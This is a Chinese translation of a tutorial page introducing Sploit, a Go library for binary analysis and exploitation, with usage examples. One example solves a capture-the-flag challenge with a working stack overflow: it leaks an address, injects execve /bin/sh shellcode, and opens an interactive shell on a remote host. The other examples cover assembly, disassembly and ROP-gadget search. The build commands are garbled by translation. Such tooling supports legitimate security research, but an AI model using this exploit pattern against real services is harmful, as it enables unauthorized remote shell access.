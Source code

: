 # Sploit : Go 包有助于二进制分析和开发

> 原文：<https://kalilinuxtutorials.com/sploit/>

[![Sploit : Go Package That Aids In Binary Analysis And Exploitation](img//7881ae522d9b4b1458ae8f97a46cc623.png "Sploit : Go Package That Aids In Binary Analysis And Exploitation")](https://1.bp.blogspot.com/-eYg86H6H0sM/X-PEXafulXI/AAAAAAAAINM/fvAWG5ryQSMszJkHQ9H1mnsdtaoQQXxogCLcBGAsYHQ/s728/Sploit%25281%2529.png)

Sploit 是一个 Go 包，有助于二进制分析和开发。sploit 开发背后的推动因素是能够拥有一个设计良好的 API，其功能可以与一些更常见的 Python 开发框架相媲美，同时利用 Go 编程语言。出色的交叉编译器支持、goroutines、强大的加密库和静态类型只是选择 Go 的几个原因。

这个项目的灵感来自 pwntools 和其他一些很棒的项目。它仍处于早期发展阶段。预计该项目将重点关注外壳编码、二进制补丁、ROP 堆栈构建和一般二进制分析。

**CTF 挑战赛的解决方案**

```
package main;

import(
    sp "github.com/zznop/sploit"
)

var arch = &sp.Processor {
    Architecture: sp.ArchI386,
    Endian: sp.LittleEndian,
}

var scInstrs = `mov al, 0xb   /* __NR_execve */
                sub esp, 0x30 /* Get pointer to /bin/sh (see below) */
                mov ebx, esp  /* filename (/bin/sh) */
                xor ecx, ecx  /* argv (NULL) */
                xor edx, edx  /* envp (NULL) */
                int 0x80`

func main() {
    shellcode, _ := sp.Asm(arch, scInstrs)
    r, _ := sp.NewRemote("tcp", "some.pwnable.on.the.interwebz:10800")
    defer r.Close()
    r.RecvUntil([]byte("HELLO:"), true)

    // Leak a stack address
    r.Send(append([]byte("/bin/sh\x00AAAAAAAAAAAA"), sp.PackUint32LE(0x08048087)...))
    resp, _ := r.RecvN(20)
    leakAddr := sp.UnpackUint32LE(resp[0:4])

    // Pop a shell
    junk := make([]byte, 20-len(shellcode))
    junk = append(junk, sp.PackUint32LE(leakAddr-4)...)
    r.Send(append(shellcode, junk...))
    r.Interactive()
}
```

**将汇编编译成机器码**

```
package main;

import(
    "github.com/zznop/sploit"
    "encoding/hex"
    "fmt"
)

func main() {
    instrs := "mov rcx, r12\n"              +
              "mov rdx, r13\n"              +
              "mov r8, 0x1f\n"              +
              "xor r9, r9\n"                +
              "sub rsp, 0x8\n"              +
              "mov qword [rsp+0x20], rax\n"

    arch := &sploit.Processor {
        Architecture: sploit.ArchX8664,
        Endian: sploit.LittleEndian,
    }

    opcode, _ := sploit.Asm(arch, instrs)
    fmt.Printf("Opcode bytes:\n%s\n", hex.Dump(opcode))
}
```

```
$ ./assemble_example
Opcode bytes:
00000000  4c 89 e1 4c 89 ea 49 c7  c0 1f 00 00 00 4d 31 c9  |L..L..I......M1.|
00000010  48 83 ec 08 48 89 44 24  28                       |H...H.D$(| 
```

**在 ELF 可执行文件中反汇编代码**

```
package main;

import(
    "github.com/zznop/sploit"
    "fmt"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    vaddr := uint64(0x1135)
    count := 34
    fmt.Printf("Disassembling %v bytes at vaddr:%08x\n", count, vaddr)
    disasm, _ := elf.Disasm(vaddr, count)
    fmt.Print(disasm)
}
```

```
$ ./disassemble_example
Disassembling 34 bytes at vaddr:00001135
00001135: push rbp
00001136: mov rbp, rsp
00001139: sub rsp, 0x10
0000113d: mov dword ptr [rbp - 4], edi
00001140: mov qword ptr [rbp - 0x10], rsi
00001144: lea rdi, [rip + 0xeb9]
0000114b: call 0x1030
00001150: mov eax, 0
00001155: leave
00001156: ret 
```

**查询和过滤 ROP 小工具**

```
package main;

import(
    "github.com/zznop/sploit"
)

var program = "../test/prog1.x86_64"

func main() {
    elf, _ := sploit.NewELF(program)
    rop, _ := elf.ROP()

    matched, _ := rop.InstrSearch("pop rbp")
    matched.Dump()
}
```

```
0000111f: pop rbp ; ret
0000111d: add byte ptr [rcx], al ; pop rbp ; ret
00001118: mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
00001113: call 0x1080 ; mov byte ptr [rip + 0x2f11], 1 ; pop rbp ; ret
000011b7: pop rbp ; pop r14 ; pop r15 ; ret
000011b3: pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011b2: pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011af: add esp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
000011ae: add rsp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
... 
```

**依赖关系**

Sploit 的一些功能依赖于外部依赖。例如，Sploit 使用 GCC 的 GAS assembler 来编译汇编代码，使用 capstone 来反汇编编译后的代码，作为由`asm.go`公开的 API 的一部分。

**安装顶石:**

**git 克隆 https://github.com/aquynh/capstone.git–分支 4 . 0 . 2–单分支
cd 顶石
制作
sudo 制作安装**

安装 GCC 交叉编译器。以下命令假设您在 Intel 工作站上运行 Debian 或 Ubuntu，如果运行另一个 Linux 发行版，可能需要更改:

**sudo 安装 gcc gcc-arm-Linux-gnueabi gcc-aarch 64-Linux-GNU gcc-MIPS-Linux-GNU \ gcc-mipsel-Linux-GNU gcc-powerpc-Linux-GNU**

[**Download**](https://github.com/zznop/sploit)